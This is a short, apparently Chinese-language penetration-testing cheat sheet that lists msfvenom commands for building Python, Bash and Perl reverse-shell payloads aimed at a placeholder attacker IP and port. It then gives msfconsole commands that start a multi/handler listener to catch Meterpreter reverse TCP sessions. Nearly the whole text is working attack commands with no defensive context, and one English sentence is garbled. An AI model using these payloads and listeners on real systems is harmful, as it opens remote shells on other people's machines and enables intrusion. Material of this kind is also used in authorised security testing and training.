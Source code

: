 脚本

```
#Python
msfvenom -p cmd/unix/reverse_python LHOST=[AttackerIP] LPORT=[AttackerPort]  -f raw > shell.py
#Bash
msfvenom -p cmd/unix/reverse_bash LHOST=[AttackerIP]  LPORT=[AttackerPort]  -f raw > shell.sh
#Perl
msfvenom -p cmd/unix/reverse_perl LHOST=[AttackerIP] LPORT=[AttackerPort] -f raw > shell.pl
```

### msfconsole监听并接受连入的shell 创建session

**Handlers说明**
ijup Metasploit to be in a position to receive your incoming shells. 
Handlers should be in the following format.


**use exploit/multi/handler**

```
use exploit/multi/handler 
show options
set payload windows/x64/meterpreter/reverse_tcp
show options
set LHOST [AttackerIP]
#默认4444端口
set LPORT [AttackerPort]
set ExitOnSession false
exploit -j -z
```
